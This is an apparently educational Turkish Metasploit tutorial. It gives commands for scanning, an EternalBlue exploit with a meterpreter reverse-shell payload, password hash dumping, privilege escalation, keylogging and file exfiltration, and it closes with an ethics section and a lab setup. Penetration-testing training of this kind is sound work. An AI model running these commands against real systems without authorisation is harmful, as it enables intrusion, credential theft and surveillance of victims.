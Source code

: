 ## 1. Kurulum

https://www.alibabacloud.com/blog/what-is-metasploit-how-to-install-metasploit-on-ubuntu_599955


## 2. Metasploit Konsol Komutları

### Temel Konsol Komutları
```bash
help                    # Tüm komutları listeler
search [arama_terimi]   # Modül arama
use [modül_adı]        # Modül seçme
info                    # Modül bilgisi
show options           # Modül seçeneklerini göster
set [opsiyon] [değer]  # Değer atama
run / exploit          # Modülü çalıştırma
```

## 3. Keşif (Information Gathering)

### Port Tarama
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS [hedef_ip]
set PORTS 1-1000
run
```

### Servis Tarama
```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS [hedef_ip]
run
```

## 4. Exploit Kullanımı

### Örnek Exploit Kullanımı
```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [hedef_ip]
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST [kendi_ip]
exploit
```

## 5. Payload Tipleri

### Temel Payload Çeşitleri
* **Reverse Shell**: Hedeften size bağlantı açar
* **Bind Shell**: Hedefte port açar ve dinlemeye alır
* **Meterpreter**: Gelişmiş özelliklere sahip payload

### Meterpreter Temel Komutlar
```bash
sysinfo         # Sistem bilgisi
getuid          # Kullanıcı bilgisi
ps              # Process listesi
migrate [PID]   # Process'e geçiş
hashdump        # Hash'leri dökme
screenshot      # Ekran görüntüsü
```

## 6. Post Exploitation

### Yetki Yükseltme
```bash
use post/windows/gather/smart_hashdump
run

use exploit/windows/local/service_permissions
set SESSION 1
run
```

## 7. Veri Toplama

### Basit Veri Toplama Komutları
```bash
search -f *.pdf    # PDF dosyalarını ara
download [dosya]   # Dosya indirme
upload [dosya]     # Dosya yükleme
keyscan_start      # Keylogger başlatma
keyscan_dump       # Kayıtları görüntüleme
```

## 8. Güvenlik ve Etik

### Önemli Uyarılar
* Sadece izin verilen sistemlerde test yapın
* Test sonuçlarını detaylı raporlayın
* Sistemlerde kalıcı hasar bırakmayın
* Kişisel verilere saygılı olun

## 9. Pratik Yapma

### Lab Ortamı Kurulumu
* VirtualBox veya VMware kullanın
* Metasploitable2 indirin ve kurun
* Windows 7/10 test makinesi hazırlayın

### Örnek Senaryo
```bash
# 1. Hedef keşfi
nmap -sV [hedef_ip]

# 2. Açık servisleri tespit
use auxiliary/scanner/smb/smb_version

# 3. Uygun exploit seçimi
search type:exploit platform:windows

# 4. Exploit çalıştırma
use [exploit_adı]
set RHOSTS [hedef_ip]
exploit
```

## 10. İleri Seviye Konular

### Öğrenilmesi Gereken Konular
* MSFvenom ile özel payload oluşturma
* Exploit geliştirme
* Script yazma (Ruby)
* Anti-virüs bypass teknikleri

## Sonuç

Bu eğitim, Metasploit'un temel kullanımını anlamanıza yardımcı olacaktır. Düzenli pratik yaparak ve güvenli lab ortamlarında çalışarak becerilerinizi geliştirebilirsiniz. 

### Önerilen Kaynaklar
* Metasploit Belgeleri
* Offensive Security Eğitimleri
* CTF platformları
* Güvenli lab ortamları

**Not**: Bu bilgiler sadece eğitim amaçlıdır ve etik sınırlar içerisinde kullanılmalıdır.
